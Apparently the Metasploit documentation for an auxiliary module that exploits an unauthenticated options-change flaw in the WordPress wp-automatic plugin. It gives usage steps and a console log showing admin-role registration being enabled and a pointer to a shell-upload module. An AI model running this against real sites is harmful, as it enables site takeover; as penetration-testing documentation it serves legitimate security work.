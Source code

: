 ## Vulnerable Application

This module exploits an unauthenticated arbitrary wordpress options change vulnerability
in the Automatic (wp-automatic) plugin <= 3.53.2.

If `WPEMAIL` is provided, the administrator's email address will be changed.

User registration is enabled, and default user role is
set to administrator.  A user is then created with the `USER` name set.
A valid `EMAIL` is required to get the registration email (not handled in MSF).

A vulnerable version of the plugin can be downloaded [here](https://legendblogs.com/wp-automatic-plugin-free-download)

## Verification Steps

1. Install the vulnerable plugin
1. Start msfconsole
1. Do: `use auxiliary/admin/http/wp_automatic_plugin_privesc`
1. Do: `set rhosts [IPs]`
1. Do: `set email [email address]`
1. Do: `run`
1. You should get an email to setup your new admin account.

## Options

### EMAIL

Email for registration. No default.

### USER
Username for registration, defaults to `msfuser`

### WPEMAIL

Wordpress Administration Email. No default.

## Scenarios

### wp-automatic 3.50.7 on Wordpress 5.4.4 No WPEMAIL

```
resource (automatic.rb)> use auxiliary/admin/http/wp_automatic_plugin_privesc
[*] Using auxiliary/admin/http/wp_automatic_plugin_privesc
resource (automatic.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (automatic.rb)> set verbose true
verbose => true
resource (automatic.rb)> set email fake@example.com
email => fake@example.com
resource (automatic.rb)> run
[*] Running module against 1.1.1.1
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Enabling user registrations...
[*] Setting the default user role type to administrator...
[*] Registering msfuser with email fake@example.com
[+] For a shell: use exploits/unix/webapp/wp_admin_shell_upload
[*] Auxiliary module execution completed
```
